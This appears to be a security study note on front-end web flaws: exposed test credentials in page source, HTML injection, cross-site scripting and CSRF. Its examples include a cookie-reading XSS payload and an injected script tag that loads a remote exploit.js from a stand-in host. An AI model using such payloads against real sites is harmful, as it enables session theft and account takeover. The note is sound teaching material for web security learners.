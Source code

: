 # 🌂 Front End Vulnerabilities

## Sensitive Data Exposure

[Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3\_2017-Sensitive\_Data\_Exposure) refers to the availability of sensitive data in clear-text to the end-user.

It can be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

#### Example:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

And if we look at the page source:

```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Good to note that these human flaws are not very common but we could find other things such as test pages or directories, debugging parameters, or hidden functionality.

## HTML Injection

Another major aspect of front end security is validating and sanitizing accepted user input.

[HTML injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/11-Client-side\_Testing/03-Testing\_for\_HTML\_Injection) occurs when unfiltered user input is displayed on the page.

When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

Let's say we have this simple input page:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

If there is no sanitizing and we input this malicious code:

```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

The website will look like this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Scripting (XSS)

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks works by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

here are the main types:

| Type            | Description                                                                                                                               |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `Reflected XSS` | Occurs when user input is displayed on the page after processing (e.g., search result or error message).                                  |
| `Stored XSS`    | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).                    |
| `DOM XSS`       | Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title). |

We saw earlier the HTML injection, from that input, we could've printed out the session cookie via a DOM based XSS:

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Request Forgery (CSRF)

&#x20;[Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf) is caused by unfiltered user input and is used to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Another way of exploiting this would be to instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```
